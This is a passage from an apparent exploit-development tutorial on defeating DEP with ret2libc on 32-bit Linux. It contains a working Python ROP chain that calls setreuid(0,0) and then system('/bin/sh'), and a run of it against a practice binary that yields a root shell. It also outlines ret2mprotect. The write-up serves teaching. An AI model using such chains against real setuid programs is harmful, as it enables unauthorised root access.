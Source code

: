 Putting this all together, if we call `setreuid` with two arguments, we can return into a `pop2ret` to remove those arguments, and then return into our `system("/bin/sh")`.  Let's grab our offset for setreuid:

```
ubuntu@ubuntu:~/Desktop/bof3$ readelf -s /lib/i386-linux-gnu/libc-2.23.so | grep setreuid
   480: 000df560   135 FUNC    WEAK   DEFAULT   13 setreuid@@GLIBC_2.0
```

Now put this all together calling `setreuid(0,0)` followed by `/bin/sh`:

```python
import struct

libc_base = 0xb7e0a000
system = libc_base + 0x0003ada0
exit = libc_base + 0x0002e9d0
binsh_string = libc_base + 0x15ba0b
setreuid = libc_base + 0x000df560
pop2ret = 0x80484ba

rop  = 'A'*140
rop += struct.pack('<L', setreuid)
rop += struct.pack('<L', pop2ret)
rop += struct.pack('<L', 0)
rop += struct.pack('<L', 0)
rop += struct.pack('<L',system)
rop += struct.pack('<L',exit)
rop += struct.pack('<L', binsh_string)
print rop
```

```
ubuntu@ubuntu:~/Desktop/bof3$ (python bof_setuid.py; cat) | ./bof
id
uid=0(root) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
We're returned a root shell!

ret2mprotect 
--------------
I won't go over this too much, as I've already covered it fairly well in my [Calamity Writeup]().  The long and short of it is we can disable DEP entirely and run arbitrary shell-code in that manner.  We use the `mprotect` function in libc to make our stack executable, and then jump to it as before.  Read the write-up if you're curious about this method.

Conclusion
--------------
 Next time I'll cover how this falls apart if ASLR is enabled, and I will go over the ways this protection can also be bypassed using similar techniques.  If there's anything you'd like me to cover or any mistakes I've made, I'm more than happy for any feedback!
 
References  & Further Reading
-------------- 
[0x00sec Exploit Mitigation Techniques - Data Execution Prevention](https://0x00sec.org/t/exploit-mitigation-techniques-data-execution-prevention-dep/4634)  
[The Stack Frame](http://www.cs.uwm.edu/classes/cs315/Bacon/Lecture/HTML/ch10s07.html)  
[Exploiting Environment Variables](http://techblog.rosedu.org/exploiting-environment-variables.html)  
[HackTheBox - October](https://reboare.github.io/hackthebox/htb-october.html)  
[HackTheBox - Calamity](https://reboare.github.io/hackthebox/calamity.html)  
